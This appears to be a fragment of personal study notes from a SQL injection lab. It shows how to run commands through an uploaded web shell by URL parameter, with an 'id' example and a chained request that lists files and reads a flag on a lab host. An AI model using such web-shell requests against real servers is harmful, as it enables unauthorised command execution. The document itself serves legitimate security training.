 No the command we have to type are in the url:

`http://SERVER_IP:PORT/shell.php?0=id` example with the id command. 

To find the flag

`http://94.237.56.156:41489/shell.php?0=cd ..;ls;cat%20flag.txt`

![image.png](8%20SQL%20Injection%20Fundamentals%2019d1099e6b5c8083a030c68f5fb019fb/image%203.png)